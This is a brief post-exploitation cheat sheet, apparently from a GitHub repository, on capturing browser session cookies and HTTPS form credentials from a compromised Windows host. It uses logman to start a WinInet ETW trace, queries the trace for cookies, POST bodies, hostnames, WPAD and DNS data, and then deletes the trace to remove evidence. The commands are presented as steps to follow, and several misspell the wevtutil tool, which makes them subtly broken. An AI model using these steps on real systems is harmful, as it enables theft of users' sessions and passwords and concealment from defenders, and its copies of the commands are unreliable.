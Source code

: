 # Sidejacking SSL Cookies

Activate the event tracing for the WinInet process. Wait for the target to do web browsing activity.

```
C:\> logman start CookieStealer -p Microsoft-Windows-WinInet -o C:\temp\cookiesteal.etl -ets
```

Steal the cookies.

```
C:\> wevutil qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "cookie added"
```

Steal credentials from HTTPS form websites via HTTP POST request.

```
C:\> wevutil qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "POST"
```

Monitor activities for additional information such as, DNS requests, Proxy information, DNS Cache snooping and more.

```
C:\> wevutil qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "hostname"

C:\> wevutil qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "WPAD"

C:\> wevutil qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "DNS Cache"
```

Once you've collected for what you're looking for deactivate event logging and delete the cookie.

```
C:\> logman stop CookieStealer -ets

C:\> del C:\temp\cookiesteal.etl
```

---
## References

- [Security Weekly: Sidejacking SSL Cookies (and more) with ETW – Post Exploitation](https://www.scmagazine.com/sw-article/sidejacking-ssl-cookies-and-more-with-etw-post-exploitation)
